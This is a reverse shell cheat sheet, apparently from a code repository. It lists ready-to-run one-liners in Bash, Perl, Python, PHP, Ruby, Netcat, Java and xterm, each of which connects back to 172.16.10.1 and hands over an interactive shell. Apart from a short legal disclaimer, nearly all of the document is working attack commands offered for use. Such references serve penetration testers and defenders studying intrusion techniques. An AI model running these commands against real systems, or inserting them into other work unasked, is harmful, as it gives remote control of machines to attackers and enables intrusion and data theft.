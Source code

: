 # Reverse Shell Cheat Sheet
These information may be used for legal purposes only.  Users take full responsibility for any actions performed using what they learned.  The author accepts no liability for damage caused.  If these terms are not acceptable to you, then do not use any of it.

```The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.```

## Bash
~~~
bash -i >& /dev/tcp/172.16.10.1/8080 0>&1
~~~
## PERL
~~~
perl -e 'use Socket;$i="172.16.10.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

## Python
tested under Linux / Python 2.7:
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.10.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

## PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5 or 6
~~~
php -r '$sock=fsockopen("172.16.10.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

## Ruby
~~~
ruby -rsocket -e'f=TCPSocket.open("172.16.10.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
~~~

## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
~~~
nc -e /bin/sh 172.16.10.1 1234
~~~

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
~~~
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.10.1 1234 >/tmp/f
~~~

## Java
~~~
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/172.16.10.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
~~~

## xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (172.16.10.1) on TCP port 6001.
~~~
xterm -display 172.16.10.1:1
~~~

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
~~~
Xnest :1
~~~

You’ll need to authorise the target to connect to you (command also run on your host):
~~~
xhost +targetip
~~~
